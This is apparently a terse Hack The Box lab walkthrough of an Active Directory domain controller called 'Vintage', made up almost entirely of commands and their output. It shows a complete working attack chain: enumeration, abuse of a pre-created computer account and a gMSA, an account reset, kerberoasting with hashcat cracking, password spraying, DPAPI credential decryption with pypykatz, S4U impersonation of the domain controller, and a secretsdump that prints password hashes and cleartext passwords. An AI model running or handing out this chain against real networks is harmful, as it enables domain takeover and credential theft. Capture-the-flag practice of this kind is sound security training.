

# Vintage

P.Rosa / Rosaisbest123

sudo nmap  -sCV
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org/) ) at 2026-06-26 14:24 EDT
Nmap scan report for 10.129.231.205
Host is up (0.0073s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-06-26 18:24:26Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vintage.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: vintage.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2026-06-26T18:24:28
|_  start_date: N/A
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
|_clock-skew: -15s

cat /etc/hosts

10.129.231.205 vintage.htb dc01 dc01.vintage.htb

sudo tee /etc/krb5.conf > /dev/null <<'EOF'
[libdefaults]
default_realm = VINTAGE.HTB
dns_lookup_realm = false
dns_lookup_kdc = false
rdns = false
forwardable = true
ccache_type = 4
fcc-mit-ticketflags = true

[realms]
VINTAGE.HTB = {
kdc = dc01.vintage.htb
admin_server = dc01.vintage.htb
default_domain = vintage.htb
}

[domain_realm]
.vintage.htb = VINTAGE.HTB
vintage.htb = VINTAGE.HTB
EOF

nxc smb 10.129.231.205 -u P.Rosa -p 'Rosaisbest123' -k
SMB         10.129.231.205  445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         10.129.231.205  445    dc01             [+] vintage.htb\P.Rosa:Rosaisbest123

nxc smb 10.129.231.205 -u P.Rosa -p 'Rosaisbest123' -k --users
SMB         10.129.231.205  445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         10.129.231.205  445    dc01             [+] vintage.htb\P.Rosa:Rosaisbest123
SMB         10.129.231.205  445    dc01             -Username-                    -Last PW Set-       -BadPW- -Description-

SMB         10.129.231.205  445    dc01             Administrator                 2024-06-08 11:34:54 0       Built-in account for administering the computer/domain
SMB         10.129.231.205  445    dc01             Guest                         2024-11-13 14:16:53 0       Built-in account for guest access to the computer/domain
SMB         10.129.231.205  445    dc01             krbtgt                        2024-06-05 10:27:35 0       Key Distribution Center Service Account
SMB         10.129.231.205  445    dc01             M.Rossi                       2024-06-05 13:31:08 0

SMB         10.129.231.205  445    dc01             R.Verdi                       2024-06-05 13:31:08 0

SMB         10.129.231.205  445    dc01             L.Bianchi                     2024-06-05 13:31:08 0

SMB         10.129.231.205  445    dc01             G.Viola                       2024-06-05 13:31:08 0

SMB         10.129.231.205  445    dc01             C.Neri                        2024-06-05 21:08:13 0

SMB         10.129.231.205  445    dc01             P.Rosa                        2024-11-06 12:27:16 0

SMB         10.129.231.205  445    dc01             svc_sql                       2026-06-26 18:32:05 0

SMB         10.129.231.205  445    dc01             svc_ldap                      2024-06-06 13:45:27 0

SMB         10.129.231.205  445    dc01             svc_ark                       2024-06-06 13:45:27 0

SMB         10.129.231.205  445    dc01             C.Neri_adm                    2024-06-07 10:54:14 0

SMB         10.129.231.205  445    dc01             L.Bianchi_adm                 2024-11-26 11:40:30 0

cat users.txt
Administrator
Guest
krbtgt
M.Rossi
R.Verdi
L.Bianchi
G.Viola
C.Neri
P.Rosa
svc_sql
svc_ldap
svc_ark
C.Neri_adm
L.Bianchi_adm

python3 [bloodhound.py](http://bloodhound.py/) -u P.Rosa -p Rosaisbest123 -ns 10.129.231.205 -d vintage.htb -c all --zip

bloodyAD --host dc01.vintage.htb -d vintage.htb -u P.Rosa -p 'Rosaisbest123'

-k -i 10.129.231.205 get writable

distinguishedName: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=vintage,DC=htb
permission: WRITE

distinguishedName: CN=P.Rosa,CN=Users,DC=vintage,DC=htb

permission: WRITE

distinguishedName:

DC=vintage.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=vintage,DC=htb

permission: CREATE_CHILD

distinguishedName:

DC=_msdcs.vintage.htb,CN=MicrosoftDNS,DC=ForestDnsZones,DC=vintage,DC=htb

permission: CREATE_CHILD

I can write dns records with P.Rosa account

python3 [dnstool.py](http://dnstool.py/) -u 'vintage.htb\P.Rosa' -p 'Rosaisbest123' -r "dc011UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA" -d 10.10.15.206 --action add dc01 --tcp -k -dns-ip 10.129.231.205
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully

nxc ldap 10.129.231.205 -u P.Rosa -p 'Rosaisbest123' -k --computers
LDAP        10.129.231.205  389    DC01             [*] None (name:DC01) (domain:vintage.htb) (signing:None) (channel binding:No TLS cert) (NTLM:False)
LDAP        10.129.231.205  389    DC01             [+] vintage.htb\P.Rosa:Rosaisbest123
LDAP        10.129.231.205  389    DC01             [*] Total records returned: 3
LDAP        10.129.231.205  389    DC01             DC01$
LDAP        10.129.231.205  389    DC01             gMSA01$
LDAP        10.129.231.205  389    DC01             FS01$

[https://trustedsec.com/blog/diving-into-pre-created-computer-accounts](https://trustedsec.com/blog/diving-into-pre-created-computer-accounts)

Password of machine account FS01$ will be the fs01 per the blog post

nxc smb 10.129.231.205 -u 'FS01$' -p 'fs01' -k --shares
SMB         10.129.231.205  445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         10.129.231.205  445    dc01             [+] vintage.htb\FS01$:fs01
SMB         10.129.231.205  445    dc01             [*] Enumerated shares
SMB         10.129.231.205  445    dc01             Share           Permissions     Remark
SMB         10.129.231.205  445    dc01             -----           -----------     ------
SMB         10.129.231.205  445    dc01             ADMIN$                          Remote Admin
SMB         10.129.231.205  445    dc01             C$                              Default share
SMB         10.129.231.205  445    dc01             IPC$            READ            Remote IPC
SMB         10.129.231.205  445    dc01             NETLOGON        READ            Logon server share
SMB         10.129.231.205  445    dc01             SYSVOL          READ            Logon server share
┌─[us-dedivip-4]─[10.10.15.206]─[ronking37@htb-vuhezeuqw9]─[~]
└──╼ [★]$nxc ldap 10.129.231.205 -u 'FS01$' -p 'fs01' -k --gmsa
LDAP        10.129.231.205  389    DC01             [*] None (name:DC01) (domain:vintage.htb) (signing:None) (channel binding:No TLS cert) (NTLM:False)
LDAP        10.129.231.205  389    DC01             [+] vintage.htb\FS01$:fs01
LDAP        10.129.231.205  389    DC01             [*] Getting GMSA Passwords
LDAP        10.129.231.205  389    DC01             Account: gMSA01$              NTLM: 03d5bd36d009a6b2d96367b1b4431a12     PrincipalsAllowedToReadPassword: Domain Computers

nxc ldap 10.129.231.205 -u 'gMSA01$' -H '03d5bd36d009a6b2d96367b1b4431a12' -k
LDAP        10.129.231.205  389    DC01             [*] None (name:DC01) (domain:vintage.htb) (signing:None) (channel binding:No TLS cert) (NTLM:False)
LDAP        10.129.231.205  389    DC01             [+] vintage.htb\gMSA01$:03d5bd36d009a6b2d96367b1b4431a12

impacket-getTGT vintage.htb/gMSA01$ -hashes :03d5bd36d009a6b2d96367b1b4431a12 -dc-ip 10.129.231.205 -k
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in gMSA01$.ccache

bloodyAD --host dc01.vintage.htb -d vintage.htb -k -i 10.129.231.205 add groupMember ServiceManagers 'gMSA01$'
[+] gMSA01$ added to ServiceManagers

bloodyAD --host dc01.vintage.htb -d vintage.htb -k -i 10.129.231.205 get search --filter '(objectClass=user)' --base 'OU=Pre-Migration,DC=vintage,DC=htb' --attr sAMAccountName,userAccountControl,servicePrincipalName,description,memberOf

distinguishedName: CN=svc_sql,OU=Pre-Migration,DC=vintage,DC=htb
memberOf: CN=ServiceAccounts,OU=Pre-Migration,DC=vintage,DC=htb
sAMAccountName: svc_sql
userAccountControl: ACCOUNTDISABLE; NORMAL_ACCOUNT; DONT_EXPIRE_PASSWORD

distinguishedName: CN=svc_ldap,OU=Pre-Migration,DC=vintage,DC=htb
memberOf: CN=ServiceAccounts,OU=Pre-Migration,DC=vintage,DC=htb
sAMAccountName: svc_ldap
userAccountControl: NORMAL_ACCOUNT; DONT_EXPIRE_PASSWORD

distinguishedName: CN=svc_ark,OU=Pre-Migration,DC=vintage,DC=htb
memberOf: CN=ServiceAccounts,OU=Pre-Migration,DC=vintage,DC=htb
sAMAccountName: svc_ark
userAccountControl: NORMAL_ACCOUNT; DONT_EXPIRE_PASSWORD

bloodyAD --host dc01.vintage.htb -d vintage.htb -k -i 10.129.231.205 remove uac svc_sql -f ACCOUNTDISABLE
[+] ['ACCOUNTDISABLE'] property flags removed from svc_sql's userAccountControl

bloodyAD --host dc01.vintage.htb -d vintage.htb -k -i 10.129.231.205 set password svc_sql 'Hellothere15'
[+] Password changed successfully!

KRB5CCNAME=../'gMSA01$.ccache' python3 [targetedKerberoast.py](http://targetedkerberoast.py/) -d vintage.htb -k --no-pass --dc-host dc01.vintage.htb --request-user svc_sql
[*] Starting kerberoast attacks
[*] Attacking user (svc_sql)
[+] Printing hash for (svc_sql)
$krb5tgs$23$*svc_sql$VINTAGE.HTB$vintage.htb/svc_sql*$6e18089597ec044b7d3cd4ab7efec860$61cc884b7f8cf2c24f90cd514cd070adb0d002f9454256620fcbd549ab02f36d09045d5c654325fc8775e1ce9345630923d7d612d99e90ecdd11585bae66467e944c2e97e4742b8da75f23273b46d3c450abcdb655b0920e20454f65e26bc9de7a53037cfdd91712a1c29a260d4bfcf8eb741dab68c29246e31688bd4954e2850f9fbc4d99e51dba221a3f1fbd4c79a9af1f872b138353a4032aff523b2ef4cc61d8cf48cfa022efa728bd977395a4f30edd891f514b64f36fd92219482327e233f6ab89516c99791f260b6a25b5fc788df2146bbf63e1ef9ace0f6fb0bdc6158d7222c7c2e02eec2a44b946bbb95e98ac88e0a05286f3a9dca18ee18de3be4539179d1a243c0648790395f5a459fa12ac3b973beb37c1f2b020615ff192937032080d98622eaa08530fd9e266ddc34d4db272a3ac17d989e2d37e0d96e8f127e466a4eb070871545f8f37db7d6f9173b1727d8391b39d792e30860cc876b57c75e3c6d50f97231715bc5605477bdadf7531d65445497571b39a28cf56389d2bb251816a34dcb2a41a960d0ee6bce6489c62e1115c1c7679fd3ecdefb74cdda9f7bd140469d35a123af26ded72fe02881cb805566493d0b24b810b10e0bd3f4021bf6d7b57dfd5a0643616cea7907539e1b20b822a55f342126a11dbb7c517072341e3a1ae47079c7946212ec4ce777a80a359f78fc2d3506f72c78dae4a80c9819739734cbc686666171d6477905048592d4604f44e079118c579de7661d39752d17b82ea580cc09e36ceaa8bc209a1417107461f1a7514fd9417856578ca1b8da707ba60df54cbdf38d00b7e770cf5f01a5b386012bf3a5903ba9686c1971ba2cca22a9230fa85af4b7362f1cbd1b3bfe7f07a3e0cdb09323ab6d79cab9118e96a83b1e829d4d2bdc8d164389271490ec15e1579ca699436995970b9413f3d58dc13e00de6a509866d1c60bff34a42f2a43cd3971563d1c8fff6affe878e5cdb4482219964cbda6bdfcb71963d9447235147aa89c12f5d68b2d4191c0c1fad6ae812927c2c3aa4ea854725cb7b0221e34d503d4e4acaa03892217705a59f1fe90039f7cf6a81523d47b04cc0b00a6f7c8b0f473e90901fa5fc16735981c85f991bbed9b7cc4570e9591b60ccc8683e423b0870a913d152814cf80e9382cb085a24ab4700c1561dd95a8ce3a619e233b7299f91a94fb8d0421dcbf71bf54fb33ee2ff39b6374250353fa6737383b64ccc9bf4971e5795b29f5ceca2e2ec02cd3673780da81a6719e012b7da4ad8169b198d4d3c2513b1a66c5a5aa1d36f1d5fcb1b3fee9bfcaa775dda6cd6839d8ffecdd43b2573a5146955f59d43cc852e202383f2a3bdc497465d31a9ef0bb0a55684592298dff016324c01fadc5d847b0f2aa69a90449cb70ae14b7b99ba68ae4af3cd6d524215e389aa3568a48d884c145b35b0

sudo hashcat -m 13100 krb.hash /usr/share/wordlists/rockyou.txt.gz -r /usr/share/hashcat/rules/best64.rule
svc_sql:Zer0the0ne

nxc smb 10.129.231.205 -u ../users.txt -p Zer0the0ne -k --continue-on-success
SMB         10.129.231.205  445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         10.129.231.205  445    dc01             [-] vintage.htb\Administrator:Zer0the0ne KDC_ERR_PREAUTH_FAILED
SMB         10.129.231.205  445    dc01             [-] vintage.htb\Guest:Zer0the0ne KDC_ERR_CLIENT_REVOKED
SMB         10.129.231.205  445    dc01             [-] vintage.htb\krbtgt:Zer0the0ne KDC_ERR_CLIENT_REVOKED
SMB         10.129.231.205  445    dc01             [-] vintage.htb\M.Rossi:Zer0the0ne KDC_ERR_PREAUTH_FAILED
SMB         10.129.231.205  445    dc01             [-] vintage.htb\R.Verdi:Zer0the0ne KDC_ERR_PREAUTH_FAILED
SMB         10.129.231.205  445    dc01             [-] vintage.htb\L.Bianchi:Zer0the0ne KDC_ERR_PREAUTH_FAILED
SMB         10.129.231.205  445    dc01             [-] vintage.htb\G.Viola:Zer0the0ne KDC_ERR_PREAUTH_FAILED
SMB         10.129.231.205  445    dc01             [+] vintage.htb\C.Neri:Zer0the0ne
SMB         10.129.231.205  445    dc01             [-] vintage.htb\P.Rosa:Zer0the0ne KDC_ERR_PREAUTH_FAILED
SMB         10.129.231.205  445    dc01             [+] vintage.htb\svc_sql:Zer0the0ne
SMB         10.129.231.205  445    dc01             [-] vintage.htb\svc_ldap:Zer0the0ne KDC_ERR_PREAUTH_FAILED
SMB         10.129.231.205  445    dc01             [-] vintage.htb\svc_ark:Zer0the0ne KDC_ERR_PREAUTH_FAILED
SMB         10.129.231.205  445    dc01             [-] vintage.htb\C.Neri_adm:Zer0the0ne KDC_ERR_PREAUTH_FAILED
SMB         10.129.231.205  445    dc01             [-] vintage.htb\L.Bianchi_adm:Zer0the0ne KDC_ERR_PREAUTH_FAILED

C.Neri:Zer0the0ne

impacket-getTGT vintage.htb/C.Neri:Zer0the0ne -dc-ip 10.129.231.205 -kImpacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in C.Neri.ccache

KRB5CCNAME=C.Neri.ccache evil-winrm -i dc01.vintage.htb -r VINTAGE.HTB

*Evil-WinRM* PS C:\Users\C.Neri\Desktop> cat user.txt
7db37dcf48ca65eb31951c3074bd4b48

*Evil-WinRM* PS C:\Users\C.Neri\Appdata\Roaming\Microsoft\Credentials> [Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Users\C.Neri\Appdata\Roaming\Microsoft\Credentials\C4BB96844A5C9DD45D5B6A9859252BA6"))
AQAAAKIBAAAAAAAAAQAAANCMnd8BFdERjHoAwE/Cl+sBAAAAo0HPmVKl90yo16yi1vczmwAAACA6AAAARQBuAHQAZQByAHAAcgBpAHMAZQAgAEMAcgBlAGQAZQBuAHQAaQBhAGwAIABEAGEAdABhAA0ACgAAAANmAADAAAAAEAAAANlsnh9uZhRwM1xc/8CNBwwAAAAABIAAAKAAAAAQAAAAK+zRTF7v+bPA1UScG2CL4uAAAABoyaUl8s/1J1TabkeZkP1VvjzlbcQ61ojdLQpks7Q0/irEKMmlFOJ/Za2o8akFz3kS28HEeNGkg/3kGNOvhVbnZ2NJQHTJ12SgjFuAuPhdS9Ob2CvqW9xu7pDGXPt5AHKqlqRy+fajjcEYkGP0ki6sLBF/rpFnQvRQ9hCg8iVqyq3BpSdwOZ1h0Zxh8mbvDPv+XHw9+o6DabZifdfj+GuMRi+GDNLvv8orYUqHZ6hHO3vB4kDu5T4G8QsIAtULBs3V2ww1G7xdGI57BGKi4LEk6kuaEWopsCflsc5FK4a4xBQAAABSjIrXKMIH3qbzDSrnPMUzCyhkAA==

*Evil-WinRM* PS C:\Users\C.Neri\Documents> [Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Users\C.Neri\Appdata\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115\4dbf04d8-529b-4b4c-b4ae-8e875e4fe847"))
AgAAAAAAAAAAAAAANABkAGIAZgAwADQAZAA4AC0ANQAyADkAYgAtADQAYgA0AGMALQBiADQAYQBlAC0AOABlADgANwA1AGUANABmAGUAOAA0ADcAAAAAAAAAAAAAAAAAiAAAAAAAAABoAAAAAAAAAAAAAAAAAAAAdAEAAAAAAAACAAAA2or8mZsV0QcGzC0XUJ9K8FBGAAAJgAAAA2YAAJhSpSk/CQYorLpjFuO6lxoHg+a9CGghh0pqkMYfO5Irop3dQGYbS2b3KJo0qLO586XfAvV/0dK/fM8a4erXENVlgtsrHRG48O/VO0Egw0qMZld65hY3jxMWTkzfGqfjNK5ytEtwPHGkAgAAAFiAHjGrO47Qhcn7oxZZBrBQRgAACYAAAANmAABRlZY9IPg0gA9TOU3DaFwm1ylSDyf2HHVE2mTqFzwbK7ZHp2XH8Mx2rvk6EpPUtdIv4kkQU6GsO43Xyg+qcks13CkP8uIIo0ECAAAAAAEAAFgAAACn2p9w/uXURbRTVVUG8NTwGUQAxdTpQrS3sEc8gVH9tmXllgaPOCz8cyowsRu8fkbCLFyIcsLVGKHQRv3PUJ1qmSeC604xcQlXI43XddWfFZ3tFF1yLQOSNwfbKDdGQiF3yTlYb6KoMvhQXzs1O1LLP2cUEFOGw8+Pg8uMN4KDBURRWfqmRksyn38bg3OKFSQ1K0CpdNzKfPvS6TnGuvHvnglzZdT5qwQ+nOdXFuJccenatjtlVgQNdp6yZOmpQjrkTtZOxz9b0JRsoOQS0NWu7WThQU4s8yeZkHaJRSJ5lohgdYpZiLJ4x1lG5jLz7/IX5pP6UK1cq5KwLjvaMdGsK9GDj3ofoB/OldTS7StCAXHfzvgjmTscAdxSARKV8ekuDWjsXgz7iZkV04lUG5Jo2FD9xrFdY1DqTSbr7oLdHAwzFBQX5RGnDhKFJXA0KJ29sz1zHGVn4/J4k0e/Hkop6YwRfEighbU=

*Evil-WinRM* PS C:\Users\C.Neri\Documents> [Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Users\C.Neri\Appdata\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115\99cf41a3-a552-4cf7-a8d7-aca2d6f7339b"))
AgAAAAAAAAAAAAAAOQA5AGMAZgA0ADEAYQAzAC0AYQA1ADUAMgAtADQAYwBmADcALQBhADgAZAA3AC0AYQBjAGEAMgBkADYAZgA3ADMAMwA5AGIAAAAAAAAAAAAAAAAAiAAAAAAAAABoAAAAAAAAAAAAAAAAAAAAdAEAAAAAAAACAAAA6o788ZIMNhaSpbkSX0mC01BGAAAJgAAAA2YAABAM9ZX6Z/40RYL/aC+dw/D5oa7WMYBN56zwgXYX4QrAIb4DtJoM27zWgMxygJ36SpSHHHQGJMgTs6nZN5U/1q7DBIpQlsWk15jpmUFS2czCScuP9C+dGdYT+p6AWb3L7PZUPqNDHqZRAgAAALFxHXdcOeYbfN6CsYeVaYZQRgAACYAAAANmAABiEtEJeAVpg4QA0lnUzAsf6koPtccl1os9yZrj1gTAc/oSmhBNPEE3/VVVPZw9g3NP26Wj3vO36IOmtsXWYABkukmijrSaAZUCAAAAAAEAAFgAAACn2p9w/uXURbRTVVUG8NTwr2BFf0a0DhdM8JymBww6mzQt8tVsTbDmCZ/uZu3bzOAOUXODaGaJOOKqRm2W8rHPOZ27YjtD1pd0MFJDocNJwdhN5pwTdz2v2JsrVVVE363zZjXHeXefhuL5AMwMQr6gpTsCGcxrd1ziTN9Q1lH9QtnYE7OZlbrZPhiWO2vvdX+UQcKlgpxcSGLaczL53/UJXrvt9hueRn+YXxnK+fiyZ0gmjMlP+yuxOiKSvHM/UT6NmuYewnApQrOBO3A5F1XKHguHKT+VS187uBu/TO1ZT4/CrsKws1aG7EkIXhRKzEgukAwn5nZlU6YaADdeQRDzCR1D0ycJKFyZd4QE1Nt6Kbgr+ukbiurwBJd/D1a3+WWCw+S2OJVHB9qqlcW11heJd+v9eGe1Wf6/PYCvyyWMsvusF8XUswgKQbkH821vscyNmJWDwMply/ZvellKuGQ1/s5gVqUkALQ=

echo "AgAAAAAAAAAAAAAAOQA5AGMAZgA0ADEAYQAzAC0AYQA1ADUAMgAtADQAYwBmADcALQBhADgAZAA3AC0AYQBjAGEAMgBkADYAZgA3ADMAMwA5AGIAAAAAAAAAAAAAAAAAiAAAAAAAAABoAAAAAAAAAAAAAAAAAAAAdAEAAAAAAAACAAAA6o788ZIMNhaSpbkSX0mC01BGAAAJgAAAA2YAABAM9ZX6Z/40RYL/aC+dw/D5oa7WMYBN56zwgXYX4QrAIb4DtJoM27zWgMxygJ36SpSHHHQGJMgTs6nZN5U/1q7DBIpQlsWk15jpmUFS2czCScuP9C+dGdYT+p6AWb3L7PZUPqNDHqZRAgAAALFxHXdcOeYbfN6CsYeVaYZQRgAACYAAAANmAABiEtEJeAVpg4QA0lnUzAsf6koPtccl1os9yZrj1gTAc/oSmhBNPEE3/VVVPZw9g3NP26Wj3vO36IOmtsXWYABkukmijrSaAZUCAAAAAAEAAFgAAACn2p9w/uXURbRTVVUG8NTwr2BFf0a0DhdM8JymBww6mzQt8tVsTbDmCZ/uZu3bzOAOUXODaGaJOOKqRm2W8rHPOZ27YjtD1pd0MFJDocNJwdhN5pwTdz2v2JsrVVVE363zZjXHeXefhuL5AMwMQr6gpTsCGcxrd1ziTN9Q1lH9QtnYE7OZlbrZPhiWO2vvdX+UQcKlgpxcSGLaczL53/UJXrvt9hueRn+YXxnK+fiyZ0gmjMlP+yuxOiKSvHM/UT6NmuYewnApQrOBO3A5F1XKHguHKT+VS187uBu/TO1ZT4/CrsKws1aG7EkIXhRKzEgukAwn5nZlU6YaADdeQRDzCR1D0ycJKFyZd4QE1Nt6Kbgr+ukbiurwBJd/D1a3+WWCw+S2OJVHB9qqlcW11heJd+v9eGe1Wf6/PYCvyyWMsvusF8XUswgKQbkH821vscyNmJWDwMply/ZvellKuGQ1/s5gVqUkALQ=" | base64 -d >key2

echo "AgAAAAAAAAAAAAAANABkAGIAZgAwADQAZAA4AC0ANQAyADkAYgAtADQAYgA0AGMALQBiADQAYQBlAC0AOABlADgANwA1AGUANABmAGUAOAA0ADcAAAAAAAAAAAAAAAAAiAAAAAAAAABoAAAAAAAAAAAAAAAAAAAAdAEAAAAAAAACAAAA2or8mZsV0QcGzC0XUJ9K8FBGAAAJgAAAA2YAAJhSpSk/CQYorLpjFuO6lxoHg+a9CGghh0pqkMYfO5Irop3dQGYbS2b3KJo0qLO586XfAvV/0dK/fM8a4erXENVlgtsrHRG48O/VO0Egw0qMZld65hY3jxMWTkzfGqfjNK5ytEtwPHGkAgAAAFiAHjGrO47Qhcn7oxZZBrBQRgAACYAAAANmAABRlZY9IPg0gA9TOU3DaFwm1ylSDyf2HHVE2mTqFzwbK7ZHp2XH8Mx2rvk6EpPUtdIv4kkQU6GsO43Xyg+qcks13CkP8uIIo0ECAAAAAAEAAFgAAACn2p9w/uXURbRTVVUG8NTwGUQAxdTpQrS3sEc8gVH9tmXllgaPOCz8cyowsRu8fkbCLFyIcsLVGKHQRv3PUJ1qmSeC604xcQlXI43XddWfFZ3tFF1yLQOSNwfbKDdGQiF3yTlYb6KoMvhQXzs1O1LLP2cUEFOGw8+Pg8uMN4KDBURRWfqmRksyn38bg3OKFSQ1K0CpdNzKfPvS6TnGuvHvnglzZdT5qwQ+nOdXFuJccenatjtlVgQNdp6yZOmpQjrkTtZOxz9b0JRsoOQS0NWu7WThQU4s8yeZkHaJRSJ5lohgdYpZiLJ4x1lG5jLz7/IX5pP6UK1cq5KwLjvaMdGsK9GDj3ofoB/OldTS7StCAXHfzvgjmTscAdxSARKV8ekuDWjsXgz7iZkV04lUG5Jo2FD9xrFdY1DqTSbr7oLdHAwzFBQX5RGnDhKFJXA0KJ29sz1zHGVn4/J4k0e/Hkop6YwRfEighbU=" | base64 -d > key1

echo "AQAAAKIBAAAAAAAAAQAAANCMnd8BFdERjHoAwE/Cl+sBAAAAo0HPmVKl90yo16yi1vczmwAAACA6AAAARQBuAHQAZQByAHAAcgBpAHMAZQAgAEMAcgBlAGQAZQBuAHQAaQBhAGwAIABEAGEAdABhAA0ACgAAAANmAADAAAAAEAAAANlsnh9uZhRwM1xc/8CNBwwAAAAABIAAAKAAAAAQAAAAK+zRTF7v+bPA1UScG2CL4uAAAABoyaUl8s/1J1TabkeZkP1VvjzlbcQ61ojdLQpks7Q0/irEKMmlFOJ/Za2o8akFz3kS28HEeNGkg/3kGNOvhVbnZ2NJQHTJ12SgjFuAuPhdS9Ob2CvqW9xu7pDGXPt5AHKqlqRy+fajjcEYkGP0ki6sLBF/rpFnQvRQ9hCg8iVqyq3BpSdwOZ1h0Zxh8mbvDPv+XHw9+o6DabZifdfj+GuMRi+GDNLvv8orYUqHZ6hHO3vB4kDu5T4G8QsIAtULBs3V2ww1G7xdGI57BGKi4LEk6kuaEWopsCflsc5FK4a4xBQAAABSjIrXKMIH3qbzDSrnPMUzCyhkAA==" | base64 -d > blob

pip install pypykatz

pypykatz dpapi prekey password 'S-1-5-21-4024337825-2033394866-2055507597-1115' 'Zer0the0ne' | tee pkf
17c1ad77aadc85e9323cb5388e844c457006a851
6dc07689c6d69ec2b52e9ee0c57974c642785394
883b7bcf6205c256899ded746012a7d16fbdc894
0bcfc20f2634bb31590dad98c69c83453c6e5154

 pypykatz dpapi masterkey key1 pkf -o mkf1

 pypykatz dpapi masterkey key2 pkf -o mkf2

cat mkf1
{
"backupkeys": {},
"masterkeys": {
"4dbf04d8-529b-4b4c-b4ae-8e875e4fe847": "55d51b40d9aa74e8cdc44a6d24a25c96451449229739a1c9dd2bb50048b60a652b5330ff2635a511210209b28f81c3efe16b5aee3d84b5a1be3477a62e25989f"
}

cat mkf2
{
"backupkeys": {},
"masterkeys": {
"99cf41a3-a552-4cf7-a8d7-aca2d6f7339b": "f8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a"
}

cp mkf1 mkf

cat mkf
{
"backupkeys": {},
"masterkeys": {
"4dbf04d8-529b-4b4c-b4ae-8e875e4fe847": "55d51b40d9aa74e8cdc44a6d24a25c96451449229739a1c9dd2bb50048b60a652b5330ff2635a511210209b28f81c3efe16b5aee3d84b5a1be3477a62e25989f",
"99cf41a3-a552-4cf7-a8d7-aca2d6f7339b": "f8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a"
}
}

pypykatz dpapi credential mkf blob
type : GENERIC (1)
last_written : 133622465035169458
target : LegacyGeneric:target=admin_acc
username : vintage\c.neri_adm
unknown4 : Uncr4ck4bl3P4ssW0rd0312

nxc smb 10.129.231.205 -u c.neri_adm -p 'Uncr4ck4bl3P4ssW0rd0312' -k
SMB         10.129.231.205  445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         10.129.231.205  445    dc01             [+] vintage.htb\c.neri_adm:Uncr4ck4bl3P4ssW0rd0312

[getST.py](http://getst.py/) -spn 'cifs/dc01.vintage.htb' -impersonate 'dc01$' -dc-ip 10.129.231.205 'vintage.htb/fs01$:fs01'
Impacket v0.14.0.dev0+20260407.172353.7fc084ad - Copyright Fortra, LLC and its affiliated companies

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating dc01$
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in dc01$@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache

KRB5CCNAME='dc01$@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache' [secretsdump.py](http://secretsdump.py/) -k dc01.vintage.htb -debug

Administrator:500:aad3b435b51404eeaad3b435b51404ee:468c7497513f8243b59980f2240a10de:::

L.Bianchi_adm:1141:aad3b435b51404eeaad3b435b51404ee:6b751449807e0d73065b0423b64687f0
